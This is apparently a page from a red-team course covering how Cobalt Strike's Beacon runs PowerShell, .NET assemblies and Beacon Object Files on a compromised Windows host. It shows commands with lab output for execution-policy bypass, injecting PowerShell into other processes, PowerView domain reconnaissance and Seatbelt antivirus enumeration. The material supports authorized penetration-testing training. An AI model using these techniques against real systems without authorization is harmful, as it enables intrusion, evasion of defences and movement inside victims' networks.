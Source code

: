 # Executing Custom Tools

### powershell <a href="#el_1734801302710_373" id="el_1734801302710_373"></a>

There are three ways to execute PowerShell in Beacon. The first is with the `powershell` command.

```batch
beacon> help powershell
Use: powershell [commandlet] [arguments]

Execute the command using powershell. Any cmdlets from the
last use of powershell-import are available here too.
```

This uses powershell.exe which makes it roughly equivalent to the `shell` command (which uses cmd.exe).

```batch
beacon> powershell $env:computername
LON-WKSTN-1
```

The cmdlet and arguments that you specify are converted into an encoded command before execution.  So the command above is actually executed as: `powershell -nop -exec bypass -EncodedCommand JABlAG4AdgA6AGMAbwBtAHAAdQB0AGUAcgBuAGEAbQBlAA==`.  Operators can modify this behaviour using hooks in Aggressor script.

### powerpick <a href="#el_1734801362627_415" id="el_1734801362627_415"></a>

```batch
beacon> help powerpick
Use: powerpick [commandlet] [arguments]
     powerpick "[PATCHES: [patch-rule] [patch-rule] [patch-rule] [patch-rule]]" [commandlet] [arguments]

Execute the command using Unmanaged PowerShell. Any cmdlets from the
last use of powershell-import are available here too.
```

This command uses an instance of unmanaged PowerShell, which taps into the underlying PowerShell APIs without relying on powershell.exe.  This is based on Lee Christensen's [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell) project.  This is a fork and run command which starts Beacon's spawnto process, injects the unmanaged PowerShell DLL into it, and reads the output over a named pipe.

```batch
beacon> powerpick $env:computername
LON-WKSTN-1
```

### PsInject <a href="#el_1734801424885_443" id="el_1734801424885_443"></a>

```batch
beacon> help psinject
Use: psinject [pid] [arch] [commandlet] [arguments]

Inject Unmanaged PowerShell into a specific process and execute the
specified command. Any cmdlets from the last use of powershell-import are 
available here too.
```

This works in the same way as `powerpick`, but allows operators to inject the unmanaged DLL into an existing process rather than spawning a new one.  This can be useful for running PowerShell scripts in the context of another user, assuming you have the privileges to inject into their processes.

```batch
beacon> psinject 3020 x64 $PID
[*] Tasked beacon to psinject: $PID into 3020 (x64)

3020
```

### Importing PowerShell Scripts <a href="#el_1734801453437_463" id="el_1734801453437_463"></a>

To execute external PowerShell scripts, they must first be imported using the `powershell-import` command.

```batch
beacon> help powershell-import
Use: powershell-import [/path/to/local/script.ps1]

Import a powershell script which is combined with future
calls to the powershell command. You may only use one
imported script at a time.
```

For example, to import PowerView, we would do:

```batch
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```

This is the local path on the machine running the Cobalt Strike client, **not** the target the Beacon is running on.

The content of the imported script is automatically imported into the PowerShell session when running `powershell`, `powerpick`, and `psinject`.  Beacon does this by hosting the script on a small built-in webserver, which is then fetched and imported during execution.

```batch
beacon> powerpick Get-Domain

Forest                  : contoso.com
DomainControllers       : {lon-dc-1.contoso.com}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : lon-dc-1.contoso.com
RidRoleOwner            : lon-dc-1.contoso.com
InfrastructureRoleOwner : lon-dc-1.contoso.com
Name                    : contoso.com
```

Beacon can only hold one imported script at a time.

### .NET <a href="#el_1734801572900_543" id="el_1734801572900_543"></a>

The `execute-assembly` command uses a reflective DLL to load and host the CLR (Command Language Runtime), and then executes a .NET assembly from memory.  Only .NET Framework assemblies are supported (i.e. no .NET/.NET Core).

```batch
beacon> help execute-assembly
Use: execute-assembly [/path/to/file.exe] [arguments]
Use: execute-assembly "[PATCHES: [patch-rule] [patch-rule] [patch-rule] [patch-rule]]" [/path/to/file.exe] [arguments]

Executes a local .NET process assembly on target. This command loads the CLR in a temporary
process and loads the assembly into it. If the assembly is in the data store, this command will
use the loaded item automatically. For more information (help data-store).

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus

====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe

[*] Completed collection in 0.181 seconds
```

### BOFs <a href="#el_1734864898841_343" id="el_1734864898841_343"></a>

BOFs are tiny object files that can be loaded and executed by Beacon and can be executed using the `inline-execute` command.

```batch
beacon> help inline-execute
Use: inline-execute [/path/to/file.o] [args]

Run a Beacon Object File in this Beacon session. A Beacon Object File is a 
C program, compiled as an object file, written to use conventions specified 
in the Cobalt Strike documentation. If the Beacon Object File is in the data
store, this command will use the loaded item automatically. For more
information (help data-store).
```

However, it's more common for BOF tooling to be wrapped in their own command aliases.  For example, TrustedSec's [Situational Awareness BOF project](https://github.com/trustedsec/CS-Situational-Awareness-BOF) contains multiple BOFs that are exposed via custom commands via the included Aggressor script.

For example, its `ipconfig` command acts as a replacement for running `shell ipconfig`.

```batch
beacon> ipconfig

{8566281E-2B05-48AC-9D59-F18E427FCAB6}
	Ethernet
	Microsoft Hyper-V Network Adapter
	02-15-5D-10-BD-E0
	10.10.120.112
Hostname: 	lon-wkstn-1
DNS Suffix: 	contoso.com
DNS Server: 	10.10.120.1
```

Under the hood, the Aggressor script is running `beacon_inline_execute($1, readbof($1, "ipconfig", $null, "T1016"), "go", $null);`
